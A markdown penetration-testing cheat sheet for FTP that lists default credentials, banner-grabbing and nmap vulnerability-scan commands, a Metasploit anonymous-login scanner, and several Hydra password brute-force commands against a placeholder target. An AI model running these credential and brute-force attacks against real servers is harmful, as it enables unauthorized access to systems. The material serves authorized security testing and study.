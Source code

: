 # FTP
- File Transfer Protocol

##### Default Credentials
```
anonymous:anonymous
administrator:administrator
admin:admin
```


---
---


## Enumeration

##### Banner Grabbing
- netcat
```
nc -vn [IP] 21
```

- telnet
```
telnet [IP]
```

- nmap
```
nmap -sC -sV -p21 [IP]
```

##### Nmap Scanning
- Script Enumeration
```
nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 [IP]
```

- Vulnerability Scanning with all ftp scripts
```
nmap --script=ftp-* -p 21 [IP]
```

- FTP Anonymous Enumeration
```
nmap -p 21 --script ftp-anon [IP]
```

##### Metasploit
```
use auxiliary/scanner/ftp/anonymous
set rhosts [Target IP]
run
```


---
---


## Exploitation

##### Anonymous Login
- When prompted for a password, use anonymous or try something random.
```sh
ftp anonymous@[IP]
```

### Hydra
- Use -V to print each login attempt
#### User List and Password List, Port Flexible
```sh
hydra -t 1 -L [Username_List] -P [Password_list] -vV ftp://[IP]:[PORT]
```
##### Use a file with User:Pass combo for login
```sh
hydra -t 1 -C [user:pass File] -vV [IP] ftp
```
##### Use a file with User:Pass combo (Used for Known User/Pass combo)
```sh
hydra -s [Port] -C [user:pass File] -u -f [IP] ftp
```
##### No Parallel Scanning (One Attempt at a Time)
```sh
hydra -l [Specific_Username] -P [Wordlist] -t 1 [IP] ftp
```
##### Exit Scan After Valid Logon Found
```sh
hydra -l [Specific_Username] -P [Wordlist] -f [IP] ftp
```